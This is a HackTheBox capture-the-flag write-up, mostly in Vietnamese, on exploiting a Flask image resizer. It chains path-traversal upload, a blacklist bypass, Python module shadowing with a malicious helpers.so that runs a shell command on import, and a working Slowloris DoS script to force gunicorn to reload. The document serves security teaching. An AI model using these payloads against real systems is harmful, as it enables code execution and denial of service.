# Resizer (HackTheBox Hard)
---
**Description**:

a simple website to resize pictures, there is no way you can hack it

## Table of contents
- [I. Overview](#i-overview)
- [II. Essential Knowledge](#ii-essential-knowledge)
    - [A. Process Control System Supervisord / Gunicorn](#a-quản-lý-tiến-trình-với-supervisord--gunicorn)
    - [B. Python Module Shadowing (.so vs .py)](#b-python-module-shadowing-so-vs-py)
- [III. Source code analysis](#iii-source-code-analysis)
- [IV. Vulnerability analysis](#iv-vulnerability-analysis)
- [V. Exploitation](#v-exploitation)
    - [A. Attack Flow](#a-luồng-khai-thác-attack-flow)
    - [B. Payload ](#b-payload)
    - [C. Live exploit](#c-khai-thác-chi-tiết-qua-http-request)
- [VI. Discussion](#vi-discussion--giải-thích-mở-rộng)
---

## I. Overview
Hệ thống là một ứng dụng web (được viết bằng Flask/Python) cung cấp tính năng tải lên và thay đổi kích thước (resize) hình ảnh. Hệ thống được đóng gói trong một Docker container duy nhất quản lý bởi Supervisord.

Mục tiêu là thông qua chức năng tải file, kết hợp lỗ hổng `Arbitrary File Write` (Path Traversal), tấn công Denial of Service (DoS), và kỹ thuật `Python Module Shadowing` để buộc ứng dụng khởi động lại, nạp mã độc nhị phân (thư viện .so) và đọc nội dung file cờ flag.txt.

## II. Essential Knowledge
Kiến thức nền tảng về hệ sinh thái Python và Quản lý tiến trình trên Linux.

### A. Quản lý tiến trình với Supervisord / Gunicorn
**Supervisord**: Là một hệ thống quản lý tiến trình (Process Control System) dành cho Linux. Trong các container Docker CTF, Supervisord thường được dùng để giữ cho ứng dụng (như Gunicorn/Flask) luôn chạy. Nếu ứng dụng đột ngột bị sập (Crash / Segmentation Fault), Supervisord sẽ tự động khởi động lại (restart) tiến trình đó từ đầu.

**Mô hình Master - Worker**: Nếu ứng dụng chạy qua Gunicorn, tiến trình Master sẽ giám sát các Worker. Khi một Worker chết do lỗi tầng C/C++ (không thể bắt bằng try-except), Master sẽ ngay lập tức spawn (đẻ) ra một Worker mới để thế chỗ. Cả hai cơ chế này đều dẫn đến một kết quả: Mã nguồn Python sẽ được nạp lại (Reload) từ ổ cứng.

### B. Python Module Shadowing (.so vs .py)
Khi ứng dụng Python gặp câu lệnh `import utils.helpers`, nó sẽ tìm kiếm module trong hệ thống file dựa trên một thứ tự ưu tiên nghiêm ngặt:

1) Thư viện lõi tích hợp sẵn bằng C.

2) Shared Objects / Thư viện động C Extension (đuôi .so trên Linux).

3) Mã nguồn Python thuần (đuôi .py).

4) Mã máy đã biên dịch (đuôi .pyc).

`Lỗ hổng Module Shadowing`: Nếu trong cùng một thư mục có cả file `helpers.py` và `helpers.so` (có thể tên khác, đây chỉ là ví dụ), Python sẽ bỏ qua file `.py` và ưu tiên nạp file `.so` lên bộ nhớ.

Khi file `.so` được nạp, Python sẽ tự động tìm và chạy hàm khởi tạo có tên là `PyInit_<tên_module>()`. Bất cứ mã C nào nằm trong hàm này sẽ được thực thi ngay lập tức dưới quyền của ứng dụng web.



Doc [here](https://docs.python.org/3/extending/extending.html#the-module-s-method-table-and-initialization-function)
## III. Source code analysis
- `app.py - POST /resize`:
Nhận file upload từ người dùng. Hệ thống có bộ lọc blacklist (chặn đuôi .py, .pyc và Content-Type của Python).

```python
BLACKLISTED_EXTENTIONS = {'.py', '.pyc'}

CONTENT_TYPE_BLACKLIST = {'application/x-python-code', 'application/x-python-bytecode', 'text/x-python'}
```

Đáng chú ý, ứng dụng lấy trực tiếp `file.filename` để nối chuỗi tạo đường dẫn lưu file mà không sử dụng secure_filename.

```python
filename = file.filename
filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)
if os.path.exists(filepath):
    return "File already...", 400
file.save(filepath)
```

- `resizer.py`:
Được gọi bởi app.py để xử lý ảnh và gọi sang một hàm ở `helpers.py`. File này chứa lệnh import tĩnh:

```python
import utils.helpers as helpers
```

- `helpers.py`: chỉ có chức năng sửa height, width bình thường.

```python
def resize_image(image_path, x, y):

    base, ext = os.path.splitext(image_path)

    new_image_path = f"{base}_resized{ext}"
    try:
        x = int(x)
        y = int(y)
    except ValueError:
        x, y = 800, 800 
    try:
        with Image.open(image_path) as img:
            img = img.resize((x, y))
            img.save(new_image_path)
    except Exception as e:
        print(f"Error resizing image: {e}")
        return None
```
- `Dockerfile`:
Ứng dụng chạy trên python:3.12. User thực thi là app (có quyền ghi vào /app/uploads và toàn bộ folder /app). Quản lý bởi Supervisord.

- `supervisord.conf`

```
[program:app]
command=gunicorn --workers 5 --access-logfile - --error-logfile - --bind 0.0.0.0:5000 app:app
```

Ứng dụng được chạy bằng 5 workers quản lý bởi gunicorn

- `requirements.txt`: `Pillow==10.2.0`, ở đây tác giả có sử dụng phiên bản Pillow có một CVE-2024-28219

## IV. Vulnerability Analysis
- **Arbitrary File Write** qua **Path Traversal**: Việc thiếu **secure_filename** cho phép kẻ tấn công truyền tên file dạng `../../../app/utils/payload`. File này sẽ được lưu ở bất kỳ đâu trên thư mục /app (Vì dockerfile cấu hình user app có toàn quyền với /app).

- **Bypass Blacklist**: Bộ lọc chỉ cấm `.py` và `.pyc`. Nó hoàn toàn cho phép upload các file thư viện động (Dynamic link library) hệ thống như `.so` hoặc file `.pth`.

- **CVE-2024-28219**: Theo như mô tả thì lỗi chỉ xảy ra với các hàm liên quan tới chỉnh ảnh và đi qua hàm `_imagingcms.c` để gây ra buffer overflow nhưng ở đây chỉ có resize nên có lẽ không ảnh hưởng lắm.

## V. Exploitation
### A. Luồng khai thác (Attack Flow)

Vì server validate lỏng lẻo nên ta có thể bypass cơ chế lọc file ra viết bất kì file nào tùy ý bằng cách capture traffic ở Burp, sửa nội dung và tên file miễn không phải extension .py và .pyc

Ở đây, tác giả sử dụng gunicorn (master) để quản lý các process chạy webapp (worker) mà đặc điểm của thằng worker này là sau 30 giây không phản hồi, không hoạt động thì gunicorn sẽ tắt worker đó đi và bật lại một worker mới đồng thời load lại code từ hệ thống lên worker.





Và khi một worker mới được spawn ra, code sẽ được reload lại từ ổ cứng, mà bây giờ lại đang có khả năng Arbitrary File Write nên ý tưởng của mình là sẽ viết một file code đọc flag rồi up lên server. Sau đó làm cho một worker timeout để gunicorn reload lại code mới chứa mã độc đọc flag của mình.

Vì server filter không cho viết file python như `.py` hay `.pyc`, mình tìm cách upload file có thể chạy code thì trong đó có file `.so`. Đây là một shared object (ban đầu là C) đã được biên dịch để có thể chạy trên nhiều nền tảng. 

Trong python, khi import thì các file `.so` sẽ có độ ưu tiên cao hơn so với file `.py`





Source code ở [đây](https://github.com/python/cpython/blob/main/Lib/importlib/_bootstrap_external.py#L1571)

Viết mã C và biên dịch thành tệp thư viện động `helpers.so` (do trong source code có dòng `import utils.helpers as helpers`). Mã C chứa payload sao chép nội dung /app/flag.txt ra thư mục nơi người dùng có thể truy cập.

Tải tệp `helpers.so` lên hệ thống thông qua lỗ hổng Path Traversal, đặt nó vào chung thư mục utils/ của ứng dụng. (Bypass .py blacklist).

Sau khi up được code lên rồi, mình cần làm cho Worker bị đơ để gunicorn diệt worker cũ, tạo worker mới nhét code mới vào. Khi đó ứng dụng chạy lệnh `import utils.helpers`. File `helpers.so` được nạp thay thế `helpers.py`. Mã C độc hại thực thi và ném Flag ra ngoài.

Ở đây mình dùng kĩ thuật `Slowloris DoS (Denial of Service)`

#### Nguyên lý của Slowloris
Bình thường, khi trình duyệt gửi request (ví dụ upload ảnh), nó sẽ mở một kết nối TCP và bơm dữ liệu lên server nhanh nhất có thể. Server nhận xong, xử lý, rồi đóng kết nối.

Slowloris lách luật bằng cách:

Mở một kết nối TCP hợp lệ.

Gửi phần HTTP Header để server biết: "Chào server, tôi chuẩn bị gửi một cái ảnh nặng 10MB nhé (Content-Length: 10000000)".

Thay vì gửi 10MB đó ngay, Slowloris cố tình câu giờ: Cứ 5 giây nó mới gửi 1 byte dữ liệu lên. (Số giây delay có thể điều chỉnh tùy ý)

Vì kết nối chưa bị ngắt và dữ liệu chưa đủ như đã hứa, Gunicorn Worker bắt buộc phải đứng chờ (treo) không được làm việc khác. Chờ quá 30 giây -> Master chém đầu Worker -> Respawn new worker.

### B. Payload 
#### 1. Mã nguồn C cho helpers.so
Tạo file helpers.c trên máy cá nhân:

```c
#include <Python.h>
#include <stdlib.h>

PyMODINIT_FUNC PyInit_helpers(void) {
    // 1. Thực thi mã độc hệ thống (Đọc cờ và ghi ra thư mục uploads)
    system("cat /app/flag.txt > /app/templates/landing.html");

    // 2. Định nghĩa module rỗng để Python không báo lỗi
    static struct PyModuleDef moduledef = {
        PyModuleDef_HEAD_INIT,
        "helpers",     
        "Fake Module", 
        -1,
        NULL, NULL, NULL, NULL, NULL
    };
    
    return PyModule_Create(&moduledef);
}
```
Ở đây mình ghi đè flag ra trang `landing.html` nơi mà ai cũng vào được.

Sau đó compile ra file .so (cần tải và compile đúng phiên bản Python mà challenge đang dùng)

```bash
sudo apt install gcc python3-dev
gcc -shared -o helpers.so -fPIC $(python3-config --includes) helpers.c
```

#### 2. Script tấn cổng Slowloris DoS

```python
import socket
import time

TARGET_IP = "127.0.0.1" 
TARGET_PORT = 5022

def run_slowloris():
    print(f"[*] Connecting to {TARGET_IP}:{TARGET_PORT}...")
    
    # create a raw TCP socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_IP, TARGET_PORT))
    
    # 2. Send fake http header
    # Tell server this is POST request and content's length is 9999 bytes
    headers = (
        "POST /resize HTTP/1.1\r\n"
        f"Host: {TARGET_IP}\r\n"
        "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary\r\n"
        "Content-Length: 9999\r\n"
        "\r\n" # Signal \r\n\r\n informs termination of Header, prepare to send body
    )
    s.send(headers.encode('utf-8'))
    print("[*] Header sent! Server is waiting for full Body...")
    
    # 3. Start slowloris process
    try:
        # Repeat 10 times, 5s each => Total server hangs for 50 sec
        for i in range(10):
            print(f"[-] Dropping byte number {i+1}...")
            s.send(b"A") # Send only one letter 'A'
            time.sleep(5) # Sleep 5s
            
        print("[*] Finish. Server should be timeout!")
    except Exception as e:
        print(f"[!] Connection error: {e}")
    finally:
        s.close()

if __name__ == "__main__":
    run_slowloris()
```

### C. Khai thác chi tiết qua HTTP Request
- **Bước 1**: Upload thư viện .so
Bắt request /resize bằng Burp Suite, thay đổi filename và truyền nội dung nhị phân của helpers.so:







`PIL` mở file .so nhưng do nó k hiểu nên lỗi.
Lưu ý: Header Content-Type: image/jpeg được dùng để bypass hàm kiểm tra MIME type của ứng dụng.

- **Bước 2**: Chạy script để một worker của gunicorn timeout. Buộc tạo worker mới chứa code độc mình vừa gửi lên.




- **Bước 3**: Lấy cờ
Sau khi server restart (vài giây), payload bên trong .so đã âm thầm chạy. Truy cập vào endpoint tải file để lấy cờ:
GET / -> HTB{f4k3_fl4g_f0r_t35t1ng}





## VI. Discussion / Giải thích mở rộng

- **Tại sao không ghi đè app.py hoặc index.html?**
Ứng dụng có lớp bảo vệ os.path.exists(filepath). Hàm này sẽ trả về lỗi 400 nếu đường dẫn đích đã có file tồn tại, chặn đứng các kịch bản ghi đè trực tiếp (Overwrite).

- **Sự nguy hiểm của supervisord.conf trong CTF:**
Trong thực tế, việc một ứng dụng chết đi sống lại liên tục là tính năng tốt. Nhưng trong Security, tính năng Auto-Restart kết hợp với File Upload/Path Traversal sẽ luôn mở ra các vector tấn công vô cùng mạnh mẽ như Module Shadowing hoặc thay đổi cấu hình Env.

- **Bản chất của việc nạp file .so trong Python:**
Trình thông dịch CPython được viết bằng ngôn ngữ C. Để mở rộng, nó cho phép lập trình viên viết các thư viện bằng C (C Extension) để tăng tốc độ. Do đó, Python không chỉ hiểu file text (.py), mà nó được thiết kế gốc để móc nối trực tiếp với các thư viện nhị phân (Shared Object) của hệ điều hành. Khi một hacker lách qua bộ lọc .py và ném được file .so vào đúng thư mục, họ đã trở thành developer, kiểm soát hoàn toàn bộ nhớ và quyền của ứng dụng.

> Flag: ***HTB{random-string}***